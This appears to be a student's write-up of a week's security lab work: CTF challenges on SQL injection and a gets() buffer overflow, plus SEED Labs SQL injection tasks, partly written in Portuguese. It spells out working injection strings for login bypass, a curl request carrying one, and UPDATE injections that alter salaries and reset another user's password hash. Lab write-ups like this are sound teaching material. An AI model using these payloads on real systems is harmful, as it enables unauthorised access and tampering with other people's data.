# Tasks for week \#7

## CTF

### Challenge 1

-The goal of this task is to bypass a simple login panel. After analyzing the source code, we found a vulnerability in the following query:



- In this code, username and password variables are passed without sinatization to the query.
- In order to exploit this vulnerability, we placed the following input on the username field



- After that, we successfully logged in as admin and extracted the flag:



### Challenge 2

- To solve this challenge we started by running checksec and got the following result:



- After analyzing the source code, we found a buffer overflow vulnerability in the gets function. This function doesn't check boundaries, this way we can send a payload bigger than 100 bytes. To execute the overflow, we need to overwrite the return address to an address in the stack where our shellcode is. 

- We use the following python script to exploit this vulnerability:



- A shell is raised and using the command <kbd>cat flag.txt</kbd> we get the flag.



## SQL Injection Seed Labs

- **Task 1**:
    - To print all the profile information of the employee alice, we run the following command:



- **Task 2.1**:
    - In order to gain access to the administrator page, we introduced the following input to the username field
    ```
    username = admin' or '1' = '1;
    password= 1234
    ```


- **Task 2.2**:
    - The purpose of this task is the same as the one previously presented, although we will use a http request. We used the same parameters, resulting in the following request: 
    ```
    curl http://www.seed-server.com/unsafe_home.php?username=admin%27or%271%27%3D%271&Password=1234
    ```
    - %27 corresponds to the http enconding for the character ' and %3D to the character =
    - After executing the request, we obtain the following result:


- **Task 2.3**:
    - The php unsafe_home.php code uses the 'query' function of mySQL. This function has a counter measure that prevents the execution of multiple queries. To execute multiple queries, we need to use the 'multi_query' function.


- **Task 3.1**:
    - De modo a alterar o salário do utilizador alice, injetamos no parametro Nickname a seguinte string:
    ```
    Alice', Salary=999999, nickname='Alice
    ```
    - Deste modo, o parametro salary será adicionado à query de update.
    - Before executing the query:
    
    - After executing the query:
    

- **Task 3.2**:
    - In order to change Boby's salary, we inject in the Nickname parameter the following string:
     ```
    Boby', Salary = 1 where Name = 'Boby'#
    ```

    - This way, the salary parameter will be added to the update query, the where will filter to the name Boby and the # character will comment the rest of the query
    - After executing the query:
    

- **Task 3.3**:
    - In this task, we used the same approach as the task 3.2 injecting the following string:

    ```
    Boby', Password = '7110eda4d09e062aa5e4a390b0a572ac0d2c0220' where Name = 'Boby'#
    ```

    - Como sabemos que a password é guardada utilizando a função de hash sha1 utilizamos um gerador de hash online para a password 1234 obtendo o seguinte resultado:
    
     

    - After executing the query:

    

    - This way we gain access to Bobby's account with the password 1234:

    


